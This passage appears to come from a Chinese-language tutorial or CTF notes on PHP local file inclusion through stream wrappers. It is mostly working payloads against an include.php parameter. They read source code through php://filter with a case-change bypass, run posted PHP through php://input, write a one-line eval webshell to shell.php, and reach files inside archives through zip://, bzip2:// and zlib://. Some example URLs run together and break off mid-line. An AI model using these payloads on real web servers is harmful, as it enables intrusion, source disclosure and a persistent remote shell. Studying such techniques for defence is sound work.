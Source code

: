 | 压缩过滤器                        | 作用                                                         |
| --------------------------------- | ------------------------------------------------------------ |
| zlib.deflate & zlib.inflate       | 在本地文件系统中创建 gzip 兼容文件的方法，但不产生命令行工具如 gzip的头和尾信息。只是压缩和解压数据流中的有效载荷部分。 |
| bzip2.compress & bzip2.decompress | 同上，在本地文件系统中创建 bz2 兼容文件的方法。              |

| 加密过滤器 | 作用                   |
| ---------- | ---------------------- |
| mcrypt.*   | libmcrypt 对称加密算法 |
| mdecrypt.* | libmcrypt 对称解密算法 |

#### 读取文件源码用法

```php
php://filter/read=convert.base64-encode/resource=[文件名]
php://filter/convert.base64-encode/resource=[文件名]
Php://filter/convert.bAse64-encode/resource=[文件名]//大小写绕过

#注意：php://filter 协议中间部分可以随意加东西
category=php://filter/convert.base64-encode/aaaindexbbb/resource=flag

http://127.0.0.1/include.php?file=php://filter/read=convert.base64-encode/resource=phpinfo.php
```

### 执行php代码用法

```php
php://input + [POST DATA]
http://127.0.0.1/include.php?file=php://input
[POST DATA部分]
<?php phpinfo(); ?>
```

### 写入一句话木马用法

```php
http://127.0.0.1/include.php?file=php://input
[POST DATA部分]
<?php fputs(fopen('shell.php','w'),'<?php @eval($_GET[cmd]); ?>'); ?>
```

## phar://、zip://、bzip2://、zlib://

用于读取压缩文件，`zip:// 、 bzip2:// 、 zlib://` 均属于压缩流，可以访问压缩文件中的子文件，更重要的是不需要指定后缀名，可修改为任意后缀：`jpg png gif xxx` 等等。

### 用法示例

```php
1、zip://[压缩文件绝对路径]%23[压缩文件内的子文件名]（#编码为%23）
http://127.0.0.1/include.php?file=zip://E:\phpStudy\PHPTutorial\WWW\phpinfo.jpg%23phpinfo.txt
 
2、compress.bzip2://file.bz2
http://127.0.0.1/include.php?file=compress.bzip2://D:/soft/phpStudy/WWW/file.jpghttp://127.0.0.1/include.php?file=compress.bzip2://./file.jpg
 
3、compress.zlib://file.gz
http://127.0.0.1/include.php?file=compress.zlib://D:/soft/phpStudy/WWW/file.jpghttp://127.0.0.1/include.php?file=compress.zlib://./file.jpg4、phar://
```
